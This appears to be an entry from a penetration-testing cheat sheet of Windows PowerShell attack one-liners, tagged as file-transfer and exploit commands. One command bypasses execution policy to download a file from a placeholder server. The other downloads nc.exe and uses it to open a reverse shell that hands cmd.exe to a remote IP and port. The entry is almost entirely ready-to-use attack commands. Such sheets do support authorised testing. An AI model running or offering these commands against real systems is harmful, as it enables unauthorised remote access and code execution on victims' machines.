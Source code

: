 # powershell

% powershell, download

## Download with powershell
#plateform/windows #target/remote #cat/ATTACK/FILE_TRANSFERT 
```powershell
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile "(New-Object System.Net.WebClient).DownloadFile('http://<server>/<source_file>','<dest_file>')"
```

## Download and execute with powershell
#plateform/windows #target/remote #cat/ATTACK/FILE_TRANSFERT #cat/ATTACK/EXPLOIT 
```powershell
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile New-Object System.Net.WebClient.DownloadFile('<url_file>','nc.exe'); nc.exe <ip> <port> -e cmd.exe
```